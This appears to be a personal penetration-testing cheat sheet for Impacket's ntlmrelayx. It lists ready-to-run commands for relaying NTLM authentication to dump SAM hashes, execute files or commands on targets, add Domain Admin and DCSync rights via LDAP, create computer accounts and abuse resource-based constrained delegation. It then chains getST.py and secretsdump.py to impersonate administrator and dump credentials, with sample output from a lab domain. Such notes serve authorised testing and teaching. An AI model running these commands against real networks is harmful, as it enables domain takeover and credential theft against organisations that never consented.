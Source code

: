 ```yaml
---
title: "ntlmrelayx"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


## Relay to Workstations other Clients

### dump SAM

`ntlmrelayx.py -tf targets.txt -smb2support`

### interactive session

`ntlmrelayx.py -tf targets.txt -smb2support -i`

### Execute a file

`ntlmrelayx.py -tf targets.txt -smb2support -e malware.exe`

### Execute a command

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`

## Relay to AD with LDAP

### Basic command

This command will:

- dump LDAP information
- if credentials allow it
  - add a Domain Admin account (user is added to Enterprise Admins group)
  - setup a 'domain user' account with ACL rights to preform a DCsync.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me`

combine with secretsdump.py for fun.

```bash
secretsdump.py UDlGmXMPsh:'e=yZF&~+.RUJ|dh'@lab.justin-p.me -just-dc 
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation
                                              
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:a:a:::
Guest:501:a:a:::
krbtgt:502:a:a:::
```

### Create a computer account in AD

Any user can create up to 10 computer accounts. Using the command below we can use relayed credentials to create a computer account. By default it will create a random computer account in the default computer OU.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --add-computer [OPTIONAL COMPUTERNAME]`

### Abuse msDS-AllowedToActOnBehalfOfOtherIdentity

Works by default and does not require any AD credentials to perform!

Computer accounts can modify some of their own properties via LDAP, which includes the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. This attribute controls which users can authenticate to the computer as almost any account in AD via impersonation using Kerberos. This concept is called Resource-Based constrained delegation.

We can abuse this when we relay a computer account credential by modifying this attribute to give ourselves rights impersonate users on that computer. 

The command below will add a new computer account to the domain, it will then add that computer account to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the relayed computer account.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --delegate-access`

Combine with getST.py and secretsdump.py for complete control over workstation.

```bash
getST.py -spn cifs/LAB-PC01.lab.justin-p.me lab.justin-p.me/test-machine\$ -impersonate administrator
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation

Password:
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache  
```

```bash
KRB5CCNAME=administrator.ccache 
secretsdump.py -k -no-pass LAB-PC01.lab.justin-p.me 
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb5f4662f815fdf939e16188273d583a2
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry 
```
